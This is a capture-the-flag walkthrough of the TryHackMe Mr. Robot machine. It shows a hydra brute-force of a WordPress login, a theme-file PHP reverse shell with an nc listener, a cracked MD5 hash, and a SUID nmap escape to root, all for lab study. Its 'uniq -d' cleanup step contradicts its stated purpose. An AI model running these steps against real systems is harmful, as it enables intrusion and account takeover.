





# Mr. Robot CTF Walkthrough

a walkthrough of the popular Mr. Robot themed boot2root machine. in this box, you'll learn how to exploit wordpress, crack hashes, and escalate privileges  

# Introduction

**Name:** Mr Robot CTF  
**Challenge type:** Boot2Root machine  
**Rated difficulty:** Medium  
**Link:** https://tryhackme.com/room/mrrobot  

# Nmap Scan Results

we will start by scanning open ports on the target machine, here's what nmap found:  

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:6E:76:1C:2E:07 (Unknown)
```

ports 80 and 443 are open running Apache, but neither site has a proper title or header  

# Enumerating HTTP and HTTPS  

interacting with the HTTP and HTTPS services didn't immediately reveal much. here's a look at `robots.txt` which caught my attention:  

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first key file `key-1-of-3.txt` and a wordlist named `fsocity.dic`.  

downloading the wordlist with wget:  

```bash
wget http://10.10.99.69/fsocity.dic
```

the file contains tons of duplicate words:  

```
angela
angela
angela
...
```

so I cleaned it up by removing duplicates:  

```bash
sort fsocity.dic | uniq -d > clean-dic.txt
```

Running gobuster on the site revealed it's running Wordpress:  

```
/wp-content           (Status: 301)
/admin                (Status: 301)
/audio                (Status: 301)
/intro                (Status: 200)
```

accessing `/wp-login.php` gave me a login page where username enumeration was possible.  

  

confirmed `elliot` is a valid username, while guessing main Mr. Robot characters  

  

next, I brute forced the login using hydra with the cleaned dictionary and username `elliot`:  

```bash
hydra -l elliot -P clean-dic.txt 10.10.99.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

`hydra` found a valid password for elliot!  

```
elliot:XXXXXXX
```

after logging in, going to **Appearance → Editor** gives us a form to edit theme files  

  

I edited the `404.php` template with a PHP reverse shell (from pentestmonkey's repo), adding my IP and port.  

after updating the `404.php` with the reverse shell code.  

  

remember to start your listener:  

```bash
nc -lvnp 1337
```

visiting a non-existent page triggers the reverse shell, and I got a shell as user daemon:  

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.4.7.139] from (UNKNOWN) [10.10.99.69] 39735
$ whoami
daemon
```

# Privilege Escalation  

after looking around for a bit, inside `/home/robot` I found two files:  

```
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

I couldn't read the second key, but I could read the password hash:  

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I took the hash to CrackStation and got the password  

  

trying to switch user with `su robot` initially failed because the shell was unstable:  

```
su: must be run from a terminal
```

I stabilized the shell with:  

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

after that, we can switch to the robot user successfully.  

# Getting Root  

after more enumeration, I didn't find much at first. then I checked for SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/ping
/bin/umount
/bin/mount
...
/usr/local/bin/nmap
...
```

if you've done Boot2Root machines before, you know nmap with SUID is unusual. checking GTFOBins confirmed it.  

  

exploiting the SUID nmap binary to spawn a root shell:  

```bash
nmap --interactive
```

```
nmap> !sh
# whoami
root
```

this machine was fun, the final key is in `/root`.  

© 2025 ax0ryn. created with coffee  
